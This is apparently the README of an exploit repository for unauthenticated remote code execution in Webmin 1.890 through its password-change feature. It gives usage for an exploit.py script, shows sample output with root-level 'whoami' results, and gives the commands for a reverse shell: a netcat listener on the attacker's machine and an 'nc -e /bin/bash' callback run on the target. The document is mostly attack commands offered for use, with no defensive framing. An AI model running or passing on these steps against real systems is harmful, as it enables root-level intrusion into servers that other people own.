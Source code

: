 # WebMin-1.890-Unauthenticated-RCE

Webmin 1.890 is vulnerable to RCE if “user password change” option to be enabled.<br>
# USAGE:
```bash
$ python3 exploit.py [TARGET IP] [COMMAND]
#EXAMPLE
$ python3 exploit.py 127.0.0.1 whoami

```
&lt;h1&gt;Error - Perl execution failed&lt;/h1&gt;<br>
&lt;p&gt;Your password has expired, and a new one must be chosen.<br>
<strong>uid=0(root) gid=0(root) groups=0(root)</strong><br>
&lt;/p&gt;
<br>
<h4>before running script start listener for connection in your machine</h4>
<code>nc -nvlp [LPORT]</code> 
<br><h4>run script</h4>
<code>python3 exploit.py [RHOST] "nc -e /bin/bash [LHOST] [LPORT]" </code> 
